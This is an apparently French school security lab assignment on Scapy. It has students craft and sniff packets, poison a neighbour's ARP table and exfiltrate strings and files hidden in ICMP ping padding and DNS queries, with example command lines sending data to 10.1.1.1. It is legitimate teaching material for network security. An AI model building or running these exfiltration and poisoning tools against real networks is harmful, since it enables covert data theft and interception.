 TP4 SECU : Exfiltration


I. Getting started Scapy
➜ Déjà, allez manger le cours sur Scapy et testez vous-même tous les exemples donnés là-bas
🌞 ping.py

un ping vers la passerelle du réseau de l'école
vous devez craft la trame entièrement à la main et utiliser la méthode srp() pour envoyer votre ptite trame
affiche dans le terminal le pong reçu


Si le ping est bloqué vers la passerelle, go ping un autre machin dans le LAN.

🌞 tcp_cap.py

fonction sniff()

capture le premier TCP SYN ACK reçu
affiche exactement la sortie suivante :


$ python tcp_cap.py
TCP SYN ACK reçu !
- Adresse IP src : xxx.xxx.xxx.xxx
- Adresse IP dst : xxx.xxx.xxx.xxx
- Port TCP src : xxxx
- Port TCP dst : xxxx


🌞 dns_cap.py

fonction sniff()

capturer une requête DNS et sa réponse

une requête DNS pour connaître l'IP de ynov.com




afficher uniquement l'adresse contenue dans la réponse
utiliser une commande depuis votre terminal pour faire la requête DNS pendant que votre script dns_cap.py tourne


nslookup sous Windows

dig sous GNU/Linux



🌞 dns_lookup.py

craftez une requête DNS à la main
en entier encore là, toute la trame, vous devez utiliser la méthode srp()



II. ARP Poisoning
BON VOUS ALLEZ PAS Y COUPER SI VOUS L'AVEZ JAMAIS FAIT.
P'tit détour rapide sur un ARP Poisoning simple. Pas question de MITM ici, juste injecter une fausse donnée dans la table ARP de quelqu'un.
🌞 arp_poisoning.py

craftez une trame ARP qui empoisonne la table d'un voisin

je veux que, pour la victime, l'adresse IP 10.13.33.37 corresponde à la MAC de:ad:be:ef:ca:fe



testez avec des VMs uniquement, ou entre vous uniquement
prouvez avec une commande sur la machine victime que la fausse donnée a été injectée
vous n'avez le droit qu'aux fonctions srp(), sr(), send(), sendp()



II. Exfiltration ICMP
➜ Ici, on va se servir de notre ami le ping pour exfiltrer des données.
Si vous n'aviez pas noté jusqu'alors en faisant joujou à la partie I, chaque paquet ICMP (ping et pong) contiennent une section appelée "padding" de taille variable, généralement remplie de 0. C'est là, on envoie plein de 0 sur le réseau, kom sa, à chaque ping.
C'est l'endroit idéal pour stocker des données meow.
P'tit schéma d'un paquet ICMP volé sur internet ici :

On va littéralement envoyer des pings, mais le padding on va l'utiliser pour stocker des données. Autrement dit, on va utiliser des pings pour envoyer de la data à quelqu'un.
Dans notre contexte : pour exfiltrer des données, on peut juste envoyer des ping enfet !
🌞 icmp_exf_send.py

envoie un caractère passé en argument dans un ping

un seul caractère pour le moment


l'IP destination est aussi passée en argument
on doit pouvoir faire par exemple :


# envoie le caractère "j" caché dans un ping vers 10.1.1.1
$ python icmp_exfiltration_send_1.py 10.1.1.1 j


On peut récup les arguments passés au script comme ça :

# La liste argv contient tous les arguments dans l'ordre
from sys import argv

print(f"Ceci est le premier argument : {argv[0]}.")
print(f"Ceci est le deuxième argument : {argv[1]}.")


🌞 icmp_exf_receive.py

sniff le réseau
affiche UNIQUEMENT le caractère caché si un paquet ICMP d'exfiltration est reçu et quitte après réception de 1 paquet
si un ping legit est reçu, ou n'importe quoi d'autre votre code doit continuer à tourner
il attend (avec un filtre sur sniff() et des conditions dans la fonction qui traite le paquet) uniquement le ping qui contient les données exfiltrées, et les affiche


Mettez vous dans un setup à deux PCs, ou avec une VM, truc du genre.

⭐ Bonus 1 easy :


icmp_exf_send_b1.py et icmp_exf_receive_b1.py

parce que là, bon envoyer "j" ça sert à rien
faites en sorte que ça fonctionne peu importe la longueur de la string passée en argument du script icmp_exf_send_b1.py

bah oui le padding il a une taille limitée...
quelle taille ? See une bonne doc

il va falloir donc couper la string en plusieurs morceaux, et envoyer plusieurs pings !


le programme qui reçoit icmp_exf_receive_b1.py doit reconstruire le message à partir de tous les pings qu'il reçoit


il affiche toujours uniquement la string cachée, rien d'autre


on doit donc pouvoir faire des trucs comme :


# envoie une string cachée dans un ping vers 10.1.1.1
$ python icmp_exf_send_nolimit.py 10.1.1.1 "Coucou toi comment ça va broooooo"


⭐ Bonus 2 hard : icmp_exf_send_anything.py


icmp_exf_send_b2.py et icmp_exf_receive_b2.py

envoyez un fichier avec des ping
faites simple pour les tests : créez un fichier de quelque Ko tout au plus (peu importe le format justement, on s'en fout)
genre une fois que ça marche, on doit pouvoir envoyer des JPEG avec des ping
c'est la même idée que la string : fragmenter le JPEG en p'tits morceaux, envoyer, reconstituer de l'autre côté


III. Exfiltration DNS
DNS est donc un protocole qu'on peut aussi détourner de son utilisation première pour faire de l'exfiltration.
Vu qu'on va envoyer des requêtes DNS pour exfiltrer les données il faut dans l'idéal un service qui tourne pour les recevoir (port 53 UDP), et sur cette machine qui fait tourner le service, un ptit programme scapy qui réceptionne et traite tout ce qui est reçu. Les logs du service ça peut faire l'affaire aussi !

Bon ! Vous vous me la faites tout seul celle-ci ? Quelques recherches sur internet, y'a toute la doc du monde sur ça.

🌞 dns_exfiltration_send.py

envoie des données passées en argument à l'IP passée en argument
utilise le protocole DNS pour exfiltrer lesdites données
une string de 20 caractères doit pouvoir être exfiltrée

On doit pouvoir faire :

$ dns_exfiltration_send.py 10.1.1.1 toto


⭐ Bonus 3 mid : dns_exfiltration_send.py

en dernier bonus : mettez en place le code qui reçoit votre exfiltration DNS
il n'affiche que les strings cachées dans les requêtes reçues

